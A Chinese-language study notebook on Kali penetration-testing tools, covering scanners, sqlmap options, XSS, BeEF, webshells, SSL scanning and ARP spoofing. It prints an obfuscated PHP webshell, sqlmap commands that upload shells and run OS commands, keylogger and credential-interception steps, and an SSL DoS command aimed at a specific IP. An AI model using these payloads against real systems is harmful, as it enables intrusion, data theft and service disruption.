



页面克隆
使用httrack这个工具可以进行克隆
1 | root@kali:~# httrack |
很简单，就是跟着向导进行设置，拷贝出来文件的目录。
还是对我们的目录探索有一定的帮助的。
nikto
基本语法：nikto -host http://www.XXXX.com
- -ssl 指定使用HTTPS
- -evasion：使用躲避技术，可以用1-8个状态进行指定，类似-evasion 167
还有许多交互的键。
v详细信息，空格是查看当前状态。
修改配置文件：vi /etc/nikto.conf
可以修改UA
这个程序主要是检测服务器程序的漏洞的，比如说IIS之类的。
skipfish
使用命令：skipfish -o skipfish http://www.baidu.com
- -I 指定路径中包含的字符串：-I github
- 使用@指定一个txt文件
- -S 指定一个需要检测的额外的隐藏目录，skipfish自带了好多wl后缀的文件，这些就是可能是隐藏的文件。
- -W 就是可能在检测的时候我们获得一些隐藏目录，我们指定一个文件将其保存
- -X 存在指定字符串就不进行测试
- -K 对某个参数不进行测试
- -D 多指定一个域名（需要扫描网站中存在，存在的话呢我们就会对其进行扫描）
- -L 每秒并发个数
- -m IP扫描的并发数
- -C 附带cookie信息，-C “name=wker”

感觉这个小工具很一般，虽然是谷歌的。
w3af
个人感觉这个小工具牛逼一些。
很烦的是新版本的kali已经不自带了，安装很麻烦，并且我现在的git克隆到10%就RPC中断，等我换个网吧，所以现在勉强用老版本的吧。
使用help查看使用方法。plugins进入插件目录：

使用list进行查看，list audit查看检测模块。
然后使用类似：audit all,audit xss选择我们要使用的插件。
一般使用：
1 | audit all |
w3af自带了许多配置好了的。
使用profiles进行查看，list查看已有的。
当然我们选择好我们自己的配置好了的之后，我们使用save_as进行保存。save_as test
我们下次用的时候，我们只需要use就可以了。
设置http的一些信息，http-settings设置我们的一些全局信息。
使用view查看我们可以配置的。
一些信息都是比较简单的，例如：set rand_user_agent True
使用save进行保存。
进入target命令，使用set target http://192.168.209.130设置我们要扫描的目标站点。
使用save_as test1最后一次保存。
-s参数可以执行w3af的脚本。
身份验证：
- 如果有HTTP验证的话呢我们需要加上，其实也就是在协议头有个base64的一个编码。
- NTLM身份验证，Windows集成身份认证，其实也就是对一个随机数加密，然后回传，进行比对。
- 表单的身份验证，就是设置一下表单的信息，但是需要注意的是，不要带着cookie去访问logout这种的退出网页。
- cookie就是随着访问发送的cookie，w3af需要用到的是一个cookie文件，导出的cookie文件，在config导入。
- 
- 第二个的意思是代表是否是整个域都可以访问这个cookie，我们一般需要设置为TRUE，第四个是代表是否是安全链接的时候才会传输，一般是FALSE
w3af也支持代理。
在配置中可以设置头文件。
截断代理爬网也是比较有意思的。
目录的话呢还是可以导入的。
当然支持漏洞的利用，将利用的工具（w3af左边栏上的）拖动到漏洞上就可以了。
OWASP_ZAP
起始的页面对话框问你是否要保存回话（也就是操作得到的结果）
支持代理的爬站。
支持FUZZ测试。
可以选择扫描的类型（安全，保护，默认，危险）
可以设置session在session标签下面。
支持截断修改数据。
支持对隐藏表单的显示。
burp
- 可以讲不支持代理的程序进行代理，需要在代理那里设置invisible
抓到数据包之后，我们在历史里面点击我们需要修改的CSRF数据包，然后右击选择Engagement tools，然后选择CSRF，就可以生成一个表单了。

有点多，不记录了，之前用的有点多了，也比较熟悉了。
SQlmap
- -u 参数指定一个URL进行检测
- -p 参数检查指定参数
- –users 参数查询数据库的账号密码
- –banner 查看banner信息
- –dbs 查看数据库
- -a 参数查询所有东西
- -schema 查询数据库的结构
- -m 参数对文件列表中的URL进行扫描
- -r 参数对POST之类的方法进行检测
- -l 参数对burp的log文件进行扫描
- –force=ssl 对HTTPS进行检测
- -c 扫描配置文件
- –data= 指定提交的参数
- –param-del 指定参数分隔符
- –cookie 指定参数（需要level>=2的时候才会检查cookie）
- –level 2 指定等级
- –random-agent 随机UA
- –user-agent 指定UA
- UA中的漏洞需要level等级大于3
- host头中的注入需要等级大于5
- –referer 指定来源，等级大于3才能检测
- –header 指定HTTP的一些键值（大小写敏感）
- –method=GET/POST 指定提交的参数
--proxy="http://127.0.0.1:8080"使用代理- –ignore-proxy 忽略操作系统代理
- –delay 每次之后的延迟
- –timeout 超时时间
- –retries 超时重试次数
- –randomize 指定每次请求随机取值的参数值
- –scope 通过正则表达式筛选扫描对象（有的时候URL比较多，burp的log类似的）
- –safe-url / –safe-freq 按时发几个正常的请求
- –skip-urlencode 参数不进行URL编码
- –eval 执行指定的Python脚本在每次提交数据之前（主要用来对某个参数进行计算的）
- –predict-output 指定使用猜测模糊方式加快性能（根据特征表段字段）
- –keep-alive 使用长连接（其实就是HTTP是每次访问是独立的，每次都要连接，然而长连接就一次连接就可以了，与proxy参数不兼容）
- –null-connection 空连接（使用文件内容大小进行判断，适用于盲注）
- -o 参数是上面三个参数的集合
- –text-only 通过关键字进行判断页面是否正常（与上面的不兼容）
- –threads 指定并发数
- –skip 排除指定的扫描参数
- –dbms 指定数据库类型
- –os 指定操作系统
- –incaild-bignum / –invalid-logical 将参数进行无效化，默认是取负数，前面的是巨大的值，后面的是用AND进行无效（其实就是让前面查询失败，只显示后面的查询结果）
- –no-cast 将结果转换为字符串，并用刻个替换NULL结果（针对老版本mysql）
- –no-escape 关闭ASCII编码逃逸（就是不用ASCII代理原字符）
- –prefix 指定前缀
- –suffix 指定后缀
- –tamper 混淆脚本，例如（–tamper=”randomcase.py,hex2char.py”）
- –risk 指定危险等级
- –string / –not-string 指定字符串存在不存在判断为真 –regexp 使用正则 –code 使用响应码 –text-only 指定字符 –titles 指定标题
- –time-sec 指定时间盲注的时间
- –union-cols 指定查询的列
- –union-char 指定联合查询的空字符
- –second-order 指定结果显示的页面（配合二次注入）
- -f 数据库版本
- -b banner信息
- 在特殊的位置进行注入用*代替（伪静态）
- –dbs 查看当前数据库的账号（-D）
- –current-xxx 查看当前的XXX
- –privileges -U xxx 查看数据库的权限
- –roles 查看角色
- –tables 查看表（-T）–exclude-sysdbs（排除系统的系统）
- –columns 查看字段（-C）
- –count 查看记录数目
- –schema 查看数据库的表结构
- –batch 选项使用默认的选项
- -v 显示详细程度的级别
- –start –stop 指定其实和结束的位置
- –sql-query “select from xxx” 执行SQL语句
- –common-tables 暴力破解表
- –common-colums 暴力破解列
- –file-read=”etc/passwd” 读文件（UDF）
- –file-write=”shell.php” –file-dest=”/tmp/shell.php” 上传shell.php到目标的/ymp下面的shell.php
- –os-cmd id 执行操作系统的命令
- –sql-shell 获取SQL的shell
- –reg-read/add/del（读取/添加/删除）注册表（需要指定键值…等信息
--reg-key） - –charset 指定编码 –charset=GBK
- –flush-session 清除之前保存的缓存
- –fresh-queries 忽略缓存
- –hex 使用十六进制进行传输数据
- –check-waf 检查WAF
- -hpp 绕过部分的保护（通过?x=1&y=1&x=1）这个样子绕过（asp多一些）
- –identify-waf 检查waf比较彻底
xsser
有个坑，就是说你需要将测试的参数的值改为XSS
- -s 统计信息
- -v 详细信息
- –reverse-check 提交一个js，这个js可以连接xsser，如果xsser接收到连接表明有xss
- –heuristic 查看过滤的的字符
编码参数： - –Str Use method String.FromCharCode()
- –Une Use Unescape() function
- –Mix Mix String.FromCharCode() and Unescape()
- –Dec Use Decimal encoding
- –Hex Use Hexadecimal encoding
- –Hes Use Hexadecimal encoding with semicolons
- –Dwo Encode IP addresses with DWORD
- –Doo Encode IP addresses with Octal
- –Cem=CEM Set different ‘Character Encoding Mutations’
注入位置： - –Coo COO - Cross Site Scripting Cookie injection
- –Xsa XSA - Cross Site Agent Scripting
- –Xsr XSR - Cross Site Referer Scripting
- –Dcp DCP - Data Control Protocol injections
- –Dom DOM - Document Object Model injections
- –Ind IND - HTTP Response Splitting Induced code
用onClick类型的可以绕过一些
xss键盘记录器：
js代码：
1 | document.onkeypress = function(evt) { |
php代码
1 |
|
再生成一个keylog.txt，当别人加载js的时候我们就会接收到他的输入，放在keylog.txt里面。
BEEF
启动就好，监听3000端口
指定的就是3000下的hook.js
自动监听操作，查看浏览器的版本信息。
Persistence类型是用来持久维护shell的，尽量来了shell就用一下。
暂时记录这么多，之后再记录。
WEBSHELL
WeBaCoo将数据的传输放在了cookie里面。
- 生成木马
webacoo -g -o webacoo.php
生成类似的编码（就是套了个壳子，免杀的性质）
1 | $b=strrev("edoced_4"."6esab");eval($b(str_replace(" ","","a W Y o a X N z Z X Q o J F 9 D T 0 9 L S U V b J 2 N t J 1 0 p K X t v Y l 9 z d G F y d C g p O 3 N 5 c 3 R l b S h i Y X N l N j R f Z G V j b 2 R l K C R f Q 0 9 P S 0 l F W y d j b S d d K S 4 n I D I + J j E n K T t z Z X R j b 2 9 r a W U o J F 9 D T 0 9 L S U V b J 2 N u J 1 0 s J F 9 D T 0 9 L S U V b J 2 N w J 1 0 u Y m F z Z T Y 0 X 2 V u Y 2 9 k Z S h v Y l 9 n Z X R f Y 2 9 u d G V u d H M o K S k u J F 9 D T 0 9 L S U V b J 2 N w J 1 0 p O 2 9 i X 2 V u Z F 9 j b G V h b i g p O 3 0 = "))); |
- 连接木马：
webacoo -t -u http://192.168.209.1/webacoo.php 
其他的参数比较简单，而且用处不是太大（除非被针对）。
Weevely比较好用。
支持的功能很多，还支持密码。
- 生成服务端：
weevely generate pass123 wee.php - 连接：
weevely http://19.168.209.1:8080/wee.php pass123 - 连接上使用help查看模块命令

SSL扫描
识别加密算法：openssl s_client -connect www.baidu.com:443
查看证书链。
连接SSL：openssl s_client -tls1_2 -cipher 'ECDH-RSA-RC4-SHA' -connect www.taobao.com:443
不安全的组合：openssl ciphers -v "NULL,EXPORE,LOW,DES"
扫描SSL直观信息：sslscan --tlsall www.taobao.com:443
分析服务器证书详细数据：sslscan -show-certificate --no-ciphersuites www.taobao.com:443
发现：rsa_pkcs1_sha1是不安全的
查看SSL漏洞：sslyze --regular www.taobao.com:443
在线检查：www.ssllabs.com/ssltest
生成证书：openssl genrsa -out ca.key 2048
生成根证书：openssl req -new -x509 -days 1096 -key ca.key -out ca.crt
交互：
- CN
- HaiKou
- HaiNan
- Alibab
- ALI
- ALIBABA
3311736869@qq.com

打开路由功能：sysctl -w net.ipv4.ip_forward=1
其实实际上修改的就是/proc/sys/net/ipv4/ip_forward，默认是0我们改为了1。
重定向端口信息。
ARP欺骗
接下来就是受害者登录，我们截取密码了。
只是访问的时候浏览器会弹出警告不安全。
SSLDOS不太需要占带宽。
使用命令：thc-ssl-dos 218.189.202.46 443 --accept